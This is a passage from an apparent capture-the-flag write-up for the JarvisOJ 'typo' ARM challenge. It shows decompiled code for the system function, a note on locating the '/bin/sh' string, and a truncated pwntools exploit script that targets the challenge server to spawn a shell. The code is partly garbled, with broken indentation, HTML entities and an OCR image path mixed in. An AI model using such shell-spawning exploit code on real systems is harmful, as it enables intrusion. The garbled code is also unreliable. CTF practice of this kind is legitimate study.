 ```C
  if ( a1 )

    result = sub_10BA8(a1);

  else

    result = (char *)(sub_10BA8((int)"exit 0") == 0);

  return result;

}

```

&gt; Or you can find the system function by searching for the /bin/sh string
## exp

All the conditions are there, construct system(&quot;/bin/sh&quot;)
```

jarvisOJ_typo [master●●] cat solve.py 

#!/usr/bin/env python

# -*- coding: utf-8 -*-



from pwn import *

import sys

import pdb

#  context.log_level = "debug"



#  for i in range(100, 150)[::-1]:

for i in range(112, 123):

    if sys.argv[1] == "l":

io = process (&quot;./ typo&quot;, timeout = 2)
elif sys.argv [1] == &quot;d&quot;:
        io = process(["qemu-arm", "-g", "1234", "./typo"])

    else:

        io = remote("pwn2.jarvisoj.com", 9888, timeout = 2)

    

    io.sendafter("quit\n", "\n")

io.recvline ()
    

    '''

    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh

```